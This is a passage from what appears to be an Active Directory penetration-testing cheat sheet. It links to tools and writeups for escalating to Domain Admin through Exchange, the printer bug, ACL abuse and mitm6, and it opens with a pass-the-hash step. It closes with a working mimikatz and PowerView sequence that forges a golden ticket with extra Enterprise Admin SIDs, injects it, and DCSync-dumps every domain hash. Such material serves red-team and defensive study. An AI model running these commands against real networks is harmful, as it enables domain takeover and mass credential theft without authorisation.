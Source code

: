 5. Use psexec or another tool of your choice to PTH and get Domain Admin access.
    

### **Abusing Exchange**

- [Abusing Exchange one Api call from DA](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
- [CVE-2020-0688](https://www.zerodayinitiative.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys)
- [PrivExchange](https://github.com/dirkjanm/PrivExchange) Exchange your privileges for Domain Admin privs by abusing Exchange

### **Weaponizing Printer Bug**

- [Printer Server Bug to Domain Administrator](https://www.dionach.com/blog/printer-server-bug-to-domain-administrator/)
- [NetNTLMtoSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket)

### **Abusing ACLs**

- [Escalating privileges with ACLs in Active Directory](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)
- [aclpwn.py](https://github.com/fox-it/aclpwn.py)
- [Invoke-ACLPwn](https://github.com/fox-it/Invoke-ACLPwn)

### **Abusing IPv6 with mitm6**

- [Compromising IPv4 networks via IPv6](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
- [mitm6](https://github.com/fox-it/mitm6)

### **SID History Abuse**

_If we manage to compromise a child domain of a forest and [SID filtering](https://www.itprotoday.com/windows-8/sid-filtering) isn't enabled (most of the times is not), we can abuse it to privilege escalate to Domain Administrator of the root domain of the forest. This is possible because of the [SID History](https://www.itprotoday.com/windows-8/sid-history) field on a kerberos TGT ticket, that defines the "extra" security groups and privileges._

Exploitation example:

```
#Get the SID of the Current Domain using PowerView
Get-DomainSID -Domain current.root.domain.local

#Get the SID of the Root Domain using PowerView
Get-DomainSID -Domain root.domain.local

#Create the Enteprise Admins SID
Format: RootDomainSID-519

#Forge "Extra" Golden Ticket using mimikatz
kerberos::golden /user:Administrator /domain:current.root.domain.local /sid:<CurrentDomainSID> /krbtgt:<krbtgtHash> /sids:<EnterpriseAdminsSID> /startoffset:0 /endin:600 /renewmax:10080 /ticket:\\path\\to\\ticket\\golden.kirbi

#Inject the ticket into memory
kerberos::ptt \\path\\to\\ticket\\golden.kirbi

#List the DC of the Root Domain
dir \\\\dc.root.domain.local\\C$

#Or DCsync and dump the hashes using mimikatz
lsadump::dcsync /domain:root.domain.local /all
```
